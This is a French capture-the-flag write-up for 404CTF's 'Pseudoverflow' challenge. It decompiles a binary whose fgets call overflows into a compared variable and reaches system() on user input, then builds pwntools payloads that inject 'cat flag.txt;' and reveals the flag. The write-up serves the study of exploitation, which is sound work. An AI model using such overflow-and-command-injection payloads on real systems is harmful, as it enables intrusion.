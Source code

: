 # Pseudoverflow

## Sujet

```md
Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

Objectif: lire le fichier flag.txt
 
Auteur: @Narcisse
```

[Cet exécutable](./course) est fournit, ainsi que l'adresse et port sur lesquels le service à exploit tourne. Essayons le programme :

```console
$ ./course          
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
test
Nous vous recontacterons dans les prochaines semaines.
```

Le programme demande une entrée avant de s'interrompre. Analysons le.

## Analyse statique

En utilisant Ghidra, on trouve ces fonctions :

```C
undefined8 main(void)

{
  int iVar1;
  char local_78 [106];
  undefined4 local_e;
  undefined2 local_a;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_e = 0x64726570;
  local_a = 0x73;
  puts(&DAT_00102008);
  fgets(local_78,0x100,stdin);
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
  else {
    puts("Nous vous recontacterons dans les prochaines semaines.");
  }
  return 0;
}
```

```C
void win(char *param_1)

{
  system(param_1);
  return;
}
```

La fonction `fgets` dans main étant vulnérable à un buffer overflow, on va exploiter cette vulnérabilité pour modifier la variable `local_e` afin de passer la condition suivante et atteindre la fonction `win` :

```C
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
```

Nous devrons ensuite utiliser l'appel system dans la fonctonion `win` pour ouvrir le fichier `flag.txt`.
Nous n'avons pas besoin d'analyse dynamique, passons directement à l'exploit.

## Analyse dynamique 

D'après l'analyse statique, la variable `local_78` utilisé en tant que buffer est de 106 bytes, et la variable `local_e` qui doit contenir `gagne` est stocké juste après dans la stack. Tentons de la modifier avec ce script :

```python
from pwn import *

offset = 106

payload = b"".join([
    b"\x41"*offset,
    b"gagne",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...") # Pour ouvrir le process sous GDB
p.send(payload)
p.interactive()
```

```console
$ python3 exploit.py          
[+] Starting local process './course': pid 6204
Waiting for debugger...
[*] Switching to interactive mode
[*] Process './course' stopped with exit code 0 (pid 6204)
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
Nous vous recontacterons dans les prochaines semaines.
[*] Got EOF while reading in interactive
$ 
```

Le code ne semble pas atteindre la fonction `win`. Allons voir sous GDB ce qu'il se passe :

```gdb
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5621850ac22e <main+009a>      lea    rdx, [rip+0xe3c]        # 0x5621850ad071
   0x5621850ac235 <main+00a1>      mov    rsi, rdx
   0x5621850ac238 <main+00a4>      mov    rdi, rax
 → 0x5621850ac23b <main+00a7>      call   0x5621850ac060 <strcmp@plt>
   ↳  0x5621850ac060 <strcmp@plt+0000> jmp    QWORD PTR [rip+0x2fb2]        # 0x5621850af018 <strcmp@got.plt>
      0x5621850ac066 <strcmp@plt+0006> push   0x3
      0x5621850ac06b <strcmp@plt+000b> jmp    0x5621850ac020
      0x5621850ac070 <setvbuf@plt+0000> jmp    QWORD PTR [rip+0x2faa]        # 0x5621850af020 <setvbuf@got.plt>
      0x5621850ac076 <setvbuf@plt+0006> push   0x4
      0x5621850ac07b <setvbuf@plt+000b> jmp    0x5621850ac020
───────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
strcmp@plt (
   $rdi = 0x00007ffe9bb8445a → 0x00000a656e676167 ("gagne\n"?),
   $rsi = 0x00005621850ad071 → 0x4e0000656e676167 ("gagne"?),
   $rdx = 0x00005621850ad071 → 0x4e0000656e676167 ("gagne"?)
)
```

La variable `local_e` contient le charactère "\n". Rajoutons un null byte pour signaler la fin du string :

```python
from pwn import *

offset = 106

payload = b"".join([
    b"\x41"*offset,
    b"gagne\x00",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...")
p.send(payload)
p.interactive()
```

```console
$ python3 exploit.py
[+] Starting local process './course': pid 6241
Waiting for debugger...
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
[*] Process './course' stopped with exit code 0 (pid 6241)
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgagne: not found
[*] Got EOF while reading in interactive
$
```

Nous exécutons effectivement du code : nous avons atteint la fonction `win`. Tentons de contrôler le code exécuté.
D'après l'analyse statique, la fonction `win` exécute le string passé en argument :

```C
void win(char *param_1)

{
  system(param_1);
```

Et la fonction main passe la variable `local_78` (utilisé en tant que buffer) à la fonction `win` :

```C
win(local_78);
```

Injectons le code à exécuter dans la variable `local_78` :

```python
from pwn import *

offset = 106
cat = b"cat flag.txt;"

payload = b"".join([
    cat,
    b"\x00"*(offset-len(cat)),
    b"gagne\x00",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...")
p.send(payload)
p.interactive()
```

```console
$ echo flagIsHere > flag.txt

$ python3 exploit.py
[+] Starting local process './course': pid 6342
Waiting for debugger...
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
flagIsHere
[*] Got EOF while reading in interactive
$ 
[*] Process './course' stopped with exit code 0 (pid 6342)
```

On a bien ouvert le fichier voulu. Essayons maintenant d'exploit le service mis en ligne.

## Exploit

Nous allons envoyer le payload avec [ce script](./exploit.py) :

```console
$ python3 exploit.py
[+] Opening connection to challenges.404ctf.fr on port 31958: Done
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
404CTF{0v3rfl0w}[*] Got EOF while reading in interactive
$ 
[*] Closed connection to challenges.404ctf.fr port 31958
```

On obtient bien le flag : `404CTF{0v3rfl0w}`.
